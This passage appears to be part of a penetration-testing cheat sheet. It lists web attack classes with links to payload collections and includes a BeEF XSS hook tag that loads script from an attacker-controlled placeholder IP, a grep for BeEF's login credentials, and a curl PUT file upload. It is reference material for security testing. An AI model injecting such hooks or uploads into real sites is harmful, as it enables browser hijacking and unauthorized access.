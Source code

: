 ### Command injection

For command injection always use BurpSuite !

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

### Deserialization

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
```

### File upload

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
```

### SQL injection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli
```

### XSS

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

beef-xss
cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password
<script src="http://<IP>:3000/hook.js"></script>
```

### Other web vulnerabilities

```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

### Upload a file with PUT

```
curl -X PUT http://<IP>/<FILE> -d @<FILE>  -v
```

---

## KERBEROS - 88

```
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
```

---